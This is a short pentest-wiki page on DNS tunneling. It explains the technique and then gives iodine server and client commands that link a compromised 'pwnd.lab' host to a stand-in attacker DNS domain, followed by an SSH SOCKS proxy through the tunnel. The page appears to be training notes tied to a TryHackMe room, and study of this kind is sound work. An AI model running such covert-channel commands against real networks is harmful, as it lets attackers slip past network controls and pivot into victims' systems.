 # DNS Tunneling

## Theory

DNS Tunneling also known as **TCP over DNS**, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the [DNS Data Exfiltration technique](../exfiltration/dns.md). DNS Tunneling establishes a communication channel where data is sent and received continuously.

## Practice
{% tabs %}
{% tab title="iodine" %}
[iodine](https://github.com/yarrick/iodine) is a C software that lets you tunnel IPv4 data through a DNS server.  
On the attacking machine we can run the server:
```bash
v4resk@kali$ sudo iodined -f -c -P password 10.1.1.1/24 my.attackingDnsServer.com    
```
On the compromised host, the jumpbox, we will setup the iodine client:
```bash
victim@pwnd.lab$ sudo iodine -P password my.dnsServer.com     
```
Now the attacking machine and the compromised host are sending traffics throught the `dns0` interface. All communication over this interface on the network 10.1.1.1/24 will be over the DNS. We can then setup a socks5 proxy using the `-D` argument of ssh client. 
```bash
veresk@kali$ ssh victim@10.1.1.2 -4 -D 1080 -Nf
```
{% endtab %}
{% endtabs %}

## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}